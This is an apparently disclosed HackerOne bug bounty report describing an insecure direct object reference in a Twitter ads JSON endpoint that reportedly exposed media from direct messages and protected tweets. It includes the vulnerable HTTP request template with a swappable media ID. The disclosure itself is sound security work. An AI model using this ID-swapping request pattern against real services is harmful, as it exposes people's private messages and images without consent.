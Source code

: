 # Urgent : Unauthorised Access to Media content of all Direct messages and protected tweets(Indirect object reference)

## Report Details
- **Report ID**: 99600
- **URL**: https://hackerone.com/reports/99600
- **State**: Closed
- **Severity**: high
- **Submitted**: 2015-11-14T02:52:03.041Z
- **Disclosed**: 2018-03-21T23:09:55.963Z

## Reporter
- **Username**: indoappsec
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: x

## Vulnerability Information
Hi Team,

You can tweet from your ad account while creating a campaign.When you add a media content from your computer and upload it there is a Json request which gives you the link of your media(Photos) to preview before Tweeting.This link is Vulnerable to IDOR Attack and it leads to disclose all the media content of twitter.I have checked and verified that it discloses the media content of any user's Direct messages and also protected tweets.

Vulnerable HTTP request : 

GET /media_id_to_cdn_url.json?media_id=[Media_id]&_=1447455982153 HTTP/1.1
Host: ads.twitter.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.10; rv:37.0) Gecko/20100101 Firefox/37.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Referer: https://ads.twitter.com/accounts/18ce53x5krr/campaigns/5936943/copy?campaign_type=followers&promoted_account=true&source=campaign_dashboard
Cookie: [Cookie_values]
Connection: keep-alive

Here Media_id is vulnerable to IDOR attack and it leads to give you the exact link of the Media content(Photos).

For more Information I am providing Video POC :
Link : https://youtu.be/GMZgEqej61M

This is a critical issue ,Kindly Fix it in priority.

Best Regards !
Vijay Kumar  
  

## Attachments
No attachments
